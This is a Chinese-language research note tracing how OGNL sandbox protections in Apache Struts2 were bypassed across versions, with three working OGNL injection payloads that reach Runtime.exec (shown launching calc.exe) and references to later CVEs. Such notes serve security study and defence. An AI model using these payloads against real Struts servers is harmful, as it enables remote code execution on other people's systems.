





- [Ognl沙盒逃逸](#ognl沙盒逃逸)
  - [沙盒逃逸历史](#沙盒逃逸历史)
    - [_memberAccess](#_memberaccess)
    - [Before 2.3.14.1](#before-23141)
    - [After 2.3.14.1](#after-23141)
    - [In  2.3.20~2.3.29](#in--23202329)
    - [Before 2.5.2](#before-252)
    - [Before 2.5.16](#before-2516)
    - [After 2.5.16](#after-2516)
    - [Before 2.5.29](#before-2529)
  - [参考](#参考)
# Ognl沙盒逃逸
## 沙盒逃逸历史
### _memberAccess
_memberAccess是OGNL执行环境中的一个全局对象SecurityMemberAccess,用于控制OGNL表达式能做什么,其中的`allowStaticMethodAccess`属性设置为false,表示不允许访问静态方法,导致无法直接通过getRuntime()执行命令,同时还有一些如`allowPrivateAccess`,`allowProtectedAccess`和`allowPackageProtectedAccess`来控制 OGNL如何访问 Java 类的方法和成员.  


### Before 2.3.14.1
而在 2.3.14.1之前`_memberAccess`对象是可以访问的的,导致我们可以直接修改`_memberAccess[allowStaticMethodAccess]`为ture,从而访问到getRuntime()执行命令.  

poc:`%{(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`
可以看到`allowStaticMethodAccess`被修改为True.
  
### After 2.3.14.1
在2.3.14.1之后`_memberAccess['allowStaticMethodAccess']`变成立final类型,导致无法再修改该属性.  
但其实`_memberAccess`中并没有限制创建任意类和访问其public方法,所以直接new一个ProcessBuilder即可.

### In  2.3.20~2.3.29
在2.3.20之后,添加了`excludedClasses`,`excludedPackageNames`和`excludedPackageNamePatterns`作为黑名单,其中不允许访问静态方法和构造函数.  
  
然而在Ognl.OgnlContext中还有一个默认的`DefaultMemberAccess`,在这个`DefaultMemberAccess`中并没有通同步之前的黑名单机制.  
  
  
其只有默认的安全限制,直接替换`_memberAccess`为`DefaultMemberAccess`即可.  
poc:`%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`.  

### Before 2.5.2
在2.3.30中,又新增了两个黑名单为`ognl.MemberAccess,ognl.DefaultMemberAccess`,同时在OGNL的执行Context中删除了直接`_memberAccess`变量的,直接无法访问该变量.  
  
   
在Context还有一个可利用的属性为`com.opensymphony.xwork2.ActionContext.container`  
  
其定义为  
```java
public static final String CONTAINER = "com.opensymphony.xwork2.ActionContext.container";
```
其中一个`getInstance`方法如下,用于返回执行环境中的一个实例.    
  
而初始化`_memberAccess`对象的securityMemberAccess属性是通过`OgnlUtil`实例进行设置的.  

且`OgnlUtil`是单实例模式,所以只用通过`OgnlUtil`访问到`excludedClasses`再执行HashSet的clear方法将黑名单的类置空即可再次访问到`DefaultMemberAccess`.  
poc:`%{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`  

### Before 2.5.16
在2.5.13中`Context`对象也不再可访问了,同时那些黑名单类属性
`excludedClasses`等也变成了不能修改.  
这次可以利用`attr`对象,其`struts.valueStack`属性即可返回一个OGNL context,只需要替换即可
### After 2.5.16
参考CVE-2020-17530(s2-061).
### Before 2.5.29
参考CVE-2021-31805(s2-062).
## 参考  
https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776/